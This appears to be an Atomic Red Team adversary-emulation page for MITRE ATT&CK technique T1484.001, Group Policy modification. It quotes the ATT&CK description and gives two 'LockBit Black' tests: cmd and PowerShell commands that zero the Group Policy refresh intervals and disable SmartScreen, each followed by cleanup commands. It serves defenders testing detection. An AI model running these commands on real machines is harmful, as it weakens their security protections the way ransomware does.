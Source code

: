 # T1484.001 - Group Policy Modification
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1484/001)
<blockquote>Adversaries may modify Group Policy Objects (GPOs) to subvert the intended discretionary access controls for a domain, usually with the intention of escalating privileges on the domain. Group policy allows for centralized management of user and computer settings in Active Directory (AD). GPOs are containers for group policy settings made up of files stored within a predicable network path <code>\\&lt;DOMAIN&gt;\SYSVOL\&lt;DOMAIN&gt;\Policies\</code>.(Citation: TechNet Group Policy Basics)(Citation: ADSecurity GPO Persistence 2016) 

Like other objects in AD, GPOs have access controls associated with them. By default all user accounts in the domain have permission to read GPOs. It is possible to delegate GPO access control permissions, e.g. write access, to specific users or groups in the domain.

Malicious GPO modifications can be used to implement many other malicious behaviors such as [Scheduled Task/Job](https://attack.mitre.org/techniques/T1053), [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001), [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105), [Create Account](https://attack.mitre.org/techniques/T1136), [Service Execution](https://attack.mitre.org/techniques/T1569/002),  and more.(Citation: ADSecurity GPO Persistence 2016)(Citation: Wald0 Guide to GPOs)(Citation: Harmj0y Abusing GPO Permissions)(Citation: Mandiant M Trends 2016)(Citation: Microsoft Hacking Team Breach) Since GPOs can control so many user and machine settings in the AD environment, there are a great number of potential attacks that can stem from this GPO abuse.(Citation: Wald0 Guide to GPOs)

For example, publicly available scripts such as <code>New-GPOImmediateTask</code> can be leveraged to automate the creation of a malicious [Scheduled Task/Job](https://attack.mitre.org/techniques/T1053) by modifying GPO settings, in this case modifying <code>&lt;GPO_PATH&gt;\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml</code>.(Citation: Wald0 Guide to GPOs)(Citation: Harmj0y Abusing GPO Permissions) In some cases an adversary might modify specific user rights like SeEnableDelegationPrivilege, set in <code>&lt;GPO_PATH&gt;\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf</code>, to achieve a subtle AD backdoor with complete control of the domain because the user account under the adversary's control would then be able to modify GPOs.(Citation: Harmj0y SeEnableDelegationPrivilege Right)</blockquote>

## Atomic Tests

- [Atomic Test #1 - LockBit Black - Modify Group policy settings -cmd](#atomic-test-1---lockbit-black---modify-group-policy-settings--cmd)

- [Atomic Test #2 - LockBit Black - Modify Group policy settings -Powershell](#atomic-test-2---lockbit-black---modify-group-policy-settings--powershell)


<br/>

## Atomic Test #1 - LockBit Black - Modify Group policy settings -cmd
An adversary can modify the group policy settings.

**Supported Platforms:** Windows


**auto_generated_guid:** 9ab80952-74ee-43da-a98c-1e740a985f28






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeDC /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffsetDC /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTime /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffset /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v EnableSmartScreen /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v ShellSmartScreenLevel /t REG_SZ /d Block /f
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeDC /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffsetDC /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTime /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffset /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v EnableSmartScreen /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v ShellSmartScreenLevel /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - LockBit Black - Modify Group policy settings -Powershell
An adversary modifies group policy settings

**Supported Platforms:** Windows


**auto_generated_guid:** b51eae65-5441-4789-b8e8-64783c26c1d1






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeDC -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffsetDC -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTime -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffset -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name EnableSmartScreen -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name ShellSmartScreenLevel -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeDC -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffsetDC -Force -ErrorAction Ignore 
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTime -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffset -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name EnableSmartScreen -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name ShellSmartScreenLevel -Force -ErrorAction Ignore
```





<br/>
